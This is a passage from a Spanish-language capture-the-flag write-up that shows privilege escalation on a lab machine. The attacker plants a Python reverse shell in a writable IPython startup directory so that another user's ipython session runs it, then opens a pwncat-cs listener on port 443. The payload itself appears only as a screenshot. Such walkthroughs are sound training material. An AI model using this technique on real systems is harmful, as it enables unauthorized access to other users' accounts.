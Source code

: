 Vemos que `dan_smith` está ejecutando `ipython` en el directorio `/opt/scripts_review` 
`dan_smith:x:1001:1002::/home/dan_smith:/bin/bash` -> UID 1001

Como pertenecemos al grupo `developers`, tenemos permiso de escritura en este directorio.
```shell
james_mason@shared:/opt$ ls -la
total 12
drwxr-xr-x  3 root root      4096 Jul 14  2022 .
drwxr-xr-x 18 root root      4096 Jul 14  2022 ..
drwxrwx---  2 root developer 4096 Jul 14  2022 scripts_review
james_mason@shared:/opt$ cd scripts_review/^C
james_mason@shared:/opt$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
```

Preparamos un archivo `/tmp/pwn.py` donde vamos a cargar esta reverse shell de [revshells.com](https://www.revshells.com/)
![Write-up Image](images/Screenshot_12.png)

Creamos los directorios...
```shell
james_mason@shared:/tmp$ mkdir -m 777 /opt/scripts_review/profile_default
james_mason@shared:/tmp$ mkdir -m 777 /opt/scripts_review/profile_default/startup
```

Copiamos nuestro `pwn.py`
```shell
james_mason@shared:/tmp$ cp pwn.py /opt/scripts_review/profile_default/startup/.
```

Y nos ponemos en escucha con `pwncat-cs` por el puerto 443
```shell
$ sudo pwncat-cs -lp 443
```
